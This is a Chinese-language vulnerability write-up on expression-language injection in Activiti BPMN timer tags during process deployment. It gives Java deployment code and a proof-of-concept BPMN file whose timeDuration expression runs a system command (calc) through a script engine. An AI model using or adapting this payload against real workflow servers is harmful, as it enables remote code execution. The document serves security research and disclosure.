### 流程部署时能够解析表达式的标签

```text
<timeDuration>
<timeCycle>
<timeDate>
....
```

此处以`<timeDuration>`标签为例，分析一下程序流程

```java
// 获取默认的流程引擎
ProcessEngine processEngine = ProcessEngines.getDefaultProcessEngine();

// 获取 RepositoryService
RepositoryService repositoryService = processEngine.getRepositoryService();

// 部署流程定义
repositoryService.createDeployment()
.addClasspathResource(file + ".bpmn20.xml")
.deploy();
```

测试Poc如下：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<definitions xmlns="http://www.omg.org/spec/BPMN/20100524/MODEL"
  xmlns:activiti="http://activiti.org/bpmn"
  typeLanguage="http://www.w3.org/2001/XMLSchema"
  expressionLanguage="http://www.w3.org/1999/XPath"
  targetNamespace="http://www.activiti.org/test">

  <process id="meeting" name="meeting" isExecutable="true">
    <startEvent id="startEvent1" name="Start" activiti:initiator="host">
      <timerEventDefinition>
        <timeDuration>
          ${"".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval('function test(){ return java.lang.Runtime};r=test();r.getRuntime().exec(\'calc\')')}
        </timeDuration>
      </timerEventDefinition>
    </startEvent>
    <userTask id="userTask2" name="meeting2" activiti:assignee="${person}" activiti:formKey="meeting/signate">
      <multiInstanceLoopCharacteristics isSequential="false" activiti:collection="people"
        activiti:elementVariable="person"></multiInstanceLoopCharacteristics>
    </userTask>

    <userTask id="usertask3" name="meeting3" activiti:assignee="${host}" activiti:formKey="meeting/input">

    </userTask>

  </process>

</definitions>
```
